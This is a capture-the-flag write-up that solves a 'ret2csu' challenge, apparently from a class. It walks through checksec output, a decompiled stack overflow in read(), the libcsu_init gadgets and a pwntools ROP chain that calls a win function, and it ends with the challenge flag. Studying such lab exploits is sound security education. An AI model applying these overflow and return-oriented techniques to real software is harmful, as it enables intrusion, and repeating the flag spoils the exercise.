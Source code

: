# Ret2csu:Solution


The binary is compiled with NX and Partial RELRO 
```
pwn checksec ./chal.bin
[*] '/root/workspace/vuln/ret2csu/chal/chal.bin'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  './'
```

and is dynamically linked to GLIBC.
```
ldd ./chal.bin
	libhelper.so => ./libhelper.so (0x0000004001a00000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x0000004001c56000)
	/lib64/ld-linux-x86-64.so.2 (0x0000004000000000)
```
We can exploit the read() function.
```
  undefined auStack_48 [24];
  undefined *local_30;
  undefined8 local_28;
  int local_1c;
  
  local_1c = 0x10;
  local_28 = 0xf;
  local_30 = auStack_48;
  printf("-------------------------------------\n",0x10,0xf,0x10,0x10,0);
  printf("but i keep cruisin\'\n");
  printf("can\'t stop, won\'t stop \x1b[0;31mMOV\x1b[0min\'\n");
  printf("it\'s like I got this music in my mind\n");
  printf("sayin\' it\'s gonna be alright\n");
  printf("         - shake it off, taylor swift\n");
  printf("-------------------------------------\n");
  printf("\x1b[0;31m>>> \x1b[0m ");
  read(0,local_30,(long)(local_1c + 0x1337));
  return 0;
```

The buffer is 64 and rbp is 8, therefore the padding is 72. This is also seen from sending A's into the program until it crashes at 73, and subtracting 1 so that the instruction pointer isn't overwrittn but the base pointer is. 

For a ret2csu problem we want to find the Universal Gadget which is in libcsu_init. There are two gadgets that make it up.
```
gadget 2:
mov	rdx,r15
mov	rsi,r14
mov	edi,r13d
call	qword[r12 + rbx * 8]
add	rbx,0x1
cmp	rbp,rbx
jne	0x400700

gadget 1:
add	rsp,0x8
pop	rbx
pop	rbp
pop	r12
pop	r13
pop	r14
pop	r15
retn
```

The registers being used in this binary have been modified by the accompanying so file. In order to populate the gadgets correctly we needed to be able to fill in rdi, rsi, rdx, r12, r13, and r14. The we could call the win function. 

The arguments required for the win function:
```
int64_t win(int32_t arg1, int32_t arg2, int32_t arg3, int32_t arg4 @ r12, int32_t arg5 @ r13, int32_t arg6 @ r14)
    
if ((arg1 == 0xbe && (arg2 == 0xb01d && (arg3 == 0xface && (arg4 == 0xbad && (arg5 == 0xd0 && arg6 == 0xc4a53))))))
```

Due to the modified registers being used, it is possible to use the each part of the universal gadget once, however gadget 1 could be used twice to make it easier. 

Filling in gadget one so it will populate into gadget 2 when it's called, also making the jump condition not met so that gadget 2 will fall through gadget 1 again.
```
chain += p64(0x40095a)		# address of first gadget
chain += p64(0x0) 		# pop rbx
chain += p64(0x1)		# pop rbp
chain += p64(0x600e48)		# pop r12 -> address of dereferenced fini
chain += p64(0xbe)		# pop r13 -> mov edi, r13d
chain += p64(0xb01d)		# pop r14 -> mov rsi, r14
chain += p64(0xface)		# pop r15 -> mov rdx, r15
```

Calling gadget 2 and populating r12, r13, and r14 for the win function.
```
chain += p64(0x400940)		# address of second gadget
chain += p64(0x0)		# add rsp,0x8

chain += p64(0x0)		# pop rbx
chain += p64(0x1)		# pop rbp
chain += p64(0xbad)		# pop r12
chain += p64(0xd0)		# pop r13
chain += p64(0xc4a53)		# pop r14
chain += p64(0x0)
```

Then calling the win function with the registers populated and sending the chain.
```
chain += p64(e.plt['win'])	# call the win function 

p.sendline(chain)
```

Then we get our flag!
```
flag{h3artBr3akers_g0nna_Br3ak}
```

Resources:
* Class slides
* Demo solve script
* Louie 
* Alex
